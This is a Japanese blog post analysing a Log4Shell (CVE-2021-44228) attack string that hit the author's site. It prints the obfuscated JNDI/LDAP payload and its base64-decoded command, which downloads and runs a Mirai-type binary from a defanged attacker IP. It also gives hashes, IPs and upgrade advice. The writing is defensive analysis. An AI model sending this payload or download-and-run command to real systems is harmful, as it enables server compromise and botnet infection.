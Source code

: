 # log4shellの攻撃コードを見てみる  

私のブログサイトにlog4shellの攻撃コードが送られてきた。こんんなできたばかりの貧相なサイトにも送ってくれる網羅性には感心する。  
なので、ここではその攻撃コードをみんなで見て勉強していきたいと思う。  

## 早速見てみる

まぁ、いきなり見てしまうのが一番なので以下に見てみる。  
```
"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//150[.]136[.]111[.]68[:]1389/TomcatBypass/Command/Base64/d2dldCBodHRwOi8xNTguMTAxLjExOC4yMzYvc3NoZF9wdHk7IGN1cmwgLU8gaHR0cDovMTU4LjEwMS4xMTguMjM2L3NzaGRfcHR5OyBjaG1vZCA3Nzcgc3NoZF9wdHk7IC4vc3NoZF9wdHkgZXhwbG9pdA==}')" "t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//150[.]136[.]111[.]68[:]1389/TomcatBypass/Command/Base64/d2dldCBodHRwOi8xNTguMTAxLjExOC4yMzYvc3NoZF9wdHk7IGN1cmwgLU8gaHR0cDovMTU4LjEwMS4xMTguMjM2L3NzaGRfcHR5OyBjaG1vZCA3Nzcgc3NoZF9wdHk7IC4vc3NoZF9wdHkgZXhwbG9pdA==}')"
```
Note: IPとポートの箇所はマスクした。  
で、攻撃コードにはコマンドがbase64で記載されているため、これをデコードしてみよう。  
```
wget hxxp:/158[.]101[.]118[.]236/sshd_pty;
curl -O hxxp:/158[.]101[.]118[.]236/sshd_pty;
chmod 777 sshd_pty;
[.]/sshd_pty
```
Note: URLはマスクを実施。本来はワンライナーになっていたが、見やすいように改行した。  

まぁ、わかりやすい。sshd_ptyというファイルをダウンロードして実行。  
ちなみにこのsshd_ptyはバイナリ形式であり、fileコマンドで見ると以下のようになっていた。  
```
# file sshd_pty
sshd_pty: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, stripped
```
sha256: 3e30a65e6504969c05b1bed32db2a2a592da110a7d2dbda9f064f13be5390d6c

VirusTotalに上げて見ると、32/59の検知。大半はMiraiで検知していた。  
[VirusTotalの結果](https://www.virustotal.com/gui/file/3e30a65e6504969c05b1bed32db2a2a592da110a7d2dbda9f064f13be5390d6c)

この攻撃コードを送ってくれたのと、コード内にある通信先は以下となる。  
* 送信元: 198[.]98[.]61[.]124
* 送信先: 150[.]136[.]111[.]68

最後に攻撃コードの内容がいくつか難読化（というか検知回避レベル）のトリックがなされているため、若干見やすくしたのが以下となる。  
```
"t('${jndi:ldap://150[.]136[.]111[.]68[:]1389/TomcatBypass/Command/Base64/d2dldCBodHRwOi8xNTguMTAxLjExOC4yMzYvc3NoZF9wdHk7IGN1cmwgLU8gaHR0cDovMTU4LjEwMS4xMTguMjM2L3NzaGRfcHR5OyBjaG1vZCA3Nzcgc3NoZF9wdHk7IC4vc3NoZF9wdHkgZXhwbG9pdA==}')" "t('${jndi:ldap://150[.]136[.]111[.]68[:]1389/TomcatBypass/Command/Base64/d2dldCBodHRwOi8xNTguMTAxLjExOC4yMzYvc3NoZF9wdHk7IGN1cmwgLU8gaHR0cDovMTU4LjEwMS4xMTguMjM2L3NzaGRfcHR5OyBjaG1vZCA3Nzcgc3NoZF9wdHk7IC4vc3NoZF9wdHkgZXhwbG9pdA==}')"
```

こうやって見ると、jndi:ldap://〜URL〜であり、明らかにlog4shellを狙っている。  

さて、いきなり攻撃コードを出したが、ここからはlog4shellがなんなのかを説明していく。  

## log4jの脆弱性(通称：log4shell)  

log4shellは、javaで一般的に利用されるlogging用のフレームワークであるlog4jで検出された脆弱性である。  
**CVE番号: CVE-2021-44228**  

脆弱性はRCEにあたり、任意コード実行が可能となる。脆弱性が悪用しているものは、log4jがLDAPとJNDIのリクエストの内容に関して検証が行えてないことを悪用している。  
以下にあるようにWikipediaにも専用のページが作成されている。  
[log4shellに関する記述](https://ja.wikipedia.org/wiki/Log4Shell)

この脆弱性を利用した場合、jndi:ldap://の後ろにつけられたURLからコードを取得して実行することができる。  

## 対策   

この脆弱性は最新版では修正されているため、アップグレードすることを推奨する。  
この脆弱性自体は、2.15で修正されたが、その他の脆弱性も見つかっているため、2.17にアップグレードすることが推奨される。  

## 所感  

正直、驚きのレベルの脆弱性である。このレベルの脆弱性はshellshock以来のように思う。  
（HeartBleedもあったが、これはRCEではないので、同じ系統で考えると、shellshockが思い浮かぶ）  
まして、log4jはjavaで開発をすると、とりあえずこれにしとけ、てレベルのライブラリであり、これでこんな深刻な脆弱性があるとは想像もしてなかった。  
放置しているサーバもあるだろうし、今後もこの脆弱性は利用されていくだろう。  
参考: [ShellShock](https://ja.wikipedia.org/wiki/2014%E5%B9%B4%E3%82%B7%E3%82%A7%E3%83%AB%E3%82%B7%E3%83%A7%E3%83%83%E3%82%AF%E8%84%86%E5%BC%B1%E6%80%A7)

さて、これでこの記事は一旦終了である。  
この後、この攻撃サーバへの通信を停止することを行う。それについては、Azureの環境のため、Azureセキュリティグループで防止する方法を見ていこう。  

では、終了となります。ありがとうございました。  
Note: 今回送りつけられたマルウェアは、githubで置いてあります。(パス付きZIPになってますので、悪しからず)  
